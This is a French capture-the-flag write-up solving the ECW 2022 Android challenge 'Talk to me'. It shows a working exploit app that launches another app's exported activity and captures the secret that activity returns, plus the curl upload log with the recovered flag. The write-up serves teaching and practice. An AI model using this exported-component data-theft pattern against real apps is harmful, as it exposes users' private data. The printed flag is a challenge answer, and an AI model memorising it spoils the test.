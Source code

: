 # ECW 2022 Write Up

## ANDROID - Talk to me - 77 solves - 357 pts

Dans ce challenge des instructions nous sous fournies afin de déployer une application Android sur une image docker.
Le but est de déployer une application (qui sera automatiquement executé sur l'android virtualisé) qui exploitera la vulnérabilité de l'application préalablement installé sur l'appareil.

![Enonce](images/enonce.png)

Les fichiers fournis dans le challenge sont disponnibles dans le dossier `enonce`.

### Analyse de l'application

La première étape consiste à analyser l'application. Un excellent outil que j'aime utiliser est [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) disponible dans sa version live [ici](https://mobsf.live/).
Pour ma part je vais lancer l'application en local grâce à Docker:

```Bash
docker run -p 8000:8000 opensecurity/mobile-security-framework-mobsf 
```

Une fois l'appli lancé on se connecte sur l'interface web http://127.0.0.1:8000 et on upload l'apk :

![MobSF](images/mobsf.png)

On prend le temps d'installer Android Studio durant l'analyse. Une fois l'analyse terminé on peut parcourir le report afin de detecter les vulnérabilités évidente.
L'application ne présente visiblement pas de vulnérabilité grave, une chose retient cependant notre attention :

![allowBackup](images/backup.png)

Ce tag signifie qu'il est possible d'enregistrer une application et ses datas. Cependant une connexion adb sera nécessaire pour exploiter cette mauvaise configuration. Il serait envisageable de faire une application qui backup d'autres application mais cela me semble relativement long et fastidieux à réaliser.

### Extraction des sources

Pour en savoir plus nous allons devoir lire le code source de l'application. Il est possible d'utiliser le paquet apktool mais, il n'est possible d'extraire les sources que en smali et personnellement je préfère lire les sources directement en Java. Heuresement MobSF nous permet de télécharger les sources Java une fois l'analyse terminé.

Les sources extraites sont disponnibles dans le dossier `sources`.

```Bash
sources
└── com
    ├── ecw2022
    │  └── helloworld
    │      ├── BuildConfig.java
    │      ├── CryptoActivity.java
    │      ├── MainActivity.java
    │      └── R.java
    └── google
```

On repère dans le AndroidManifest cette ligne qui nous interpelle :

```xml
<activity android:name="com.ecw2022.helloworld.CryptoActivity" android:enabled="true" android:exported="true" />
```

La balise `exported="true"` signifie que l'activité peut être lancé depuis n'importe qu'elle autre activité, qu'elle vienne de la même application ou bien d'une autre. Voyons si notre application est en mesure d'exploiter quelque chose dans cette activité.

MainActivity.java
```Java
public class CryptoActivity extends Activity {

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            Intent intent = getIntent();
            intent.putExtra("flag", getApplicationContext().getSharedPreferences("prefs", 0).getString("flag", "nope"));
            setResult(ItemTouchHelper.Callback.DEFAULT_DRAG_ANIMATION_DURATION, intent);
            finish();
        } catch (Exception e) {
            Log.e("FAIL", Log.getStackTraceString(e));
        }
    }

}
```

Je vais essayer d'expliquer rapidement pour les neophytes comment cet extrait de code est interprété par Android.

- La fonction [onCreate()](https://developer.android.com/reference/android/app/Activity#onCreate(android.os.Bundle)) est appelé lorsque l'activité est démarré pour la première fois.
- La fonction [getIntent()](https://developer.android.com/reference/android/app/Activity#getIntent()) permet de récupérer l'intent qui a démarré l'activité. Un [Intent](https://developer.android.com/reference/android/content/Intent) est un message asynchrone qui permet aux activités android de communiquer entre elles.
- La fonction [putExtra()](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)) permet de copier une valeur dans une clé (ici "flag") dans l'intent.
- La fonction [setResult()](https://developer.android.com/reference/android/app/Activity#setResult(int,%20android.content.Intent)) permet d'enregister les informations d'un intent afin de le retourner à l'activité qui sera repris à la fermeture de l'activité en cours.
- La fonction [finish()](https://developer.android.com/reference/android/app/Activity#finish()) termine l'activité en cours et renvoie à l'activité précédente.

D'après l'analyse de cet extrait de code voila le WorkFlow qui devra être accompli par notre application :

Au lancement de l'application :
- Lancer l'activité CryptoActivity de l'application com.ecw2022.helloworld

À la reprise de l'application :
- Récupérer les informations renvoyés par l'Intent de CryptoActivity.
- Afficher la valeur de l'extra "flag"

### Developpement de notre Application

Je vous invite à initialiser un projet Android "Empty Activity" en Java avec [AndroidStudio](https://developer.android.com/studio?hl=fr).
Comme nous l'informe la note fourni par les organisateurs :
* its package name must be `com.ecw2022.app`
* its main activity must be `MainActivity`

Les sources de l'application que j'ai developpé sont disponnibles dans le dossier `app`.

MainActivity.java
```Java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("com.ecw2022.helloworld", "com.ecw2022.helloworld.CryptoActivity");
        startActivityForResult(intent, 1);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (requestCode == 1) {
            if(resultCode == ItemTouchHelper.Callback.DEFAULT_DRAG_ANIMATION_DURATION){
                String result=data.getStringExtra("flag");
                Log.d("{ECW2022}",result);
            }
        }
    }
}
```

- La fonction [setClassName()](https://developer.android.com/reference/android/content/Intent#setClassName(java.lang.String,%20java.lang.String)) permet de définir l'activité et l'application dont elle provient que l'intent doit appeler.

- La fonction [startActivityForResult()](https://developer.android.com/reference/android/app/Activity#startActivityForResult(android.content.Intent,%20int)) permet de déclancher l'intent passé en paramètre et d'attendre un retour de cette activité. De cette manière la fonction onActivityResult() sera appelée.

On s'assure que la balise package soit bien renseigné dans le manifest :

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.ecw2022.app">
```
Une fois l'application buildé on extrait le fichier app-debug.apk afin de l'envoyer à l'image docker.

```Bash
curl -v -F 'apk=@app-debug.apk' http:// 213.32.7.237:28074/apk

* Closing connection -1
curl: (3) URL using bad/illegal format or missing URL
*   Trying 213.32.7.237:28074...
* Connected to 213.32.7.237 (213.32.7.237) port 28074 (#0)
> POST /apk HTTP/1.1
> Host: 213.32.7.237:28074
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 6886715
> Content-Type: multipart/form-data; boundary=------------------------146cd4267fd45f8a
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json; charset=utf-8
< Content-Length: 336
< Date: Thu, 03 Nov 2022 09:16:44 GMT
< Server: Python/3.10 aiohttp/3.8.1
< 
* Connection #0 to host 213.32.7.237 left intact
[
	"virtual device up", 
	"virtual device booted",
	"installing vulnerable app",
	"installed vulnerable app",
	"vulnerable app installed",
	"installing candidate app",
	"candidate app installed",
	"candidate app started",
	"11-03 09:11:45.695  2552  2552 D {ECW2022}: {ECW2022} : ECW{810f32667eb47979694d135e0f024ef5}",
	"virtual device destroyed"
] 
```

Le temps de patienter on part se faire un petit kawa et au retour le flag est dans la poche !